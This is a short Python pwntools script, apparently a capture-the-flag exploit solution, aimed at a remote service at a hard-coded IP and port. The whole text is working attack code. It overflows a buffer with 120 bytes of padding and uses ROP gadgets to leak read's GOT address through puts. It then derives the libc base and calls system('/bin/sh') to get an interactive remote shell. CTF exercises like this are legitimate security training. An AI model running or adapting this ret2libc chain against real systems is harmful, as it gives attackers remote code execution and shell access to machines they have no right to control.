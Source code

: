 ```python
#   -*- coding:utf-8  -*-


from pwn import *
import base64

padding = "a"*120
gadget_addr = 0x4007ba
pop_rdi_ret = gadget_addr + 9
pip_rsi_pop_r15 = gadget_addr + 6
puts_got = 0x601018
read_got = 0x601028
puts_plt = 0x400560
libc = ELF("libc-2.23.so")
system_addr = libc.symbols["system"]
read_addr = libc.symbols['read']
bin_sh_addr = 0x18CD17
puts_addr = libc.symbols['puts']

ph = remote("120.77.155.249", 10001)
def leak_addr(ph):
    exp = padding
    exp += p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(0x4006b6)
    print ph.recvuntil("me?\n")
    ph.sendline(exp)
    msg = ph.recv(6)
    print msg
    # return base64.standard_b64encode(msg)
    addr = u64(msg[:6] + '\x00\x00')
    return addr

def leak(addr):
    exp = padding
    exp += p64(pop_rdi_ret) + p64(addr) + p64(puts_plt) + p64(0x4006B6)
    ph.recvuntil("me?\n")
    ph.sendline(exp)
    msg = ph.recvrepeat(12).strip()
    log.info("%#x => %s" %(addr,base64.standard_b64encode(msg)))
    return msg

main = 0x4006B6
if __name__ == "__main__":
    read_real_addr = leak_addr(ph)
    log.success("gets read address "+ hex(read_real_addr))
    libc_addr = read_real_addr - read_addr
    system_real_addr = libc_addr + system_addr
    log.success("system address is "+hex(system_real_addr))
    bin_real_addr = libc_addr + bin_sh_addr

    # Let's pwn it !
    exp = padding
    exp += p64(pop_rdi_ret) + p64(bin_real_addr) + p64(system_real_addr)
    print ph.recvuntil("me?\n")
    ph.sendline(exp)
    print "send exp"
    ph.interactive()


```
